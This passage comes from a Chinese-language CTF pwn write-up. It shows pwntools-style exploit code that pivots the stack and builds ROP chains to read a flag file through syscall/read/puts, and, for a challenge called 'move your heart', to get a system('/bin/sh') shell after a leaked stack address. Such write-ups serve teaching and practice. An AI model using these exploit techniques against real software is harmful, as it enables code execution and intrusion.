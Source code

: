 pl 6、7再次构造，并调整rsp

```plain
pl = b'a'*0x100+p64(bss+0x300)+p64(read)
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read)
p.send(pl)
```

pl 8 构造的rop送入

```plain
syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main)
#dbg()
p.send(pl)
```

‍

#### move your heart

首先伪随机数很好获取，绕过后到back()，获取了stack地址

```plain
sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))
```

[![](assets/1701606597-0c76cc30bb643fc9c4ee5400908ed2c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170437-2b5949c2-845f-1.png)

首先第一点就是back()里的read就是向stack地址输入的

```plain
pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

直接栈迁移到pl的前一栈帧处，然后执行

[![](assets/1701606597-034247293bcfb38aac5c0376c467c492.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170444-2f2085c0-845f-1.png)
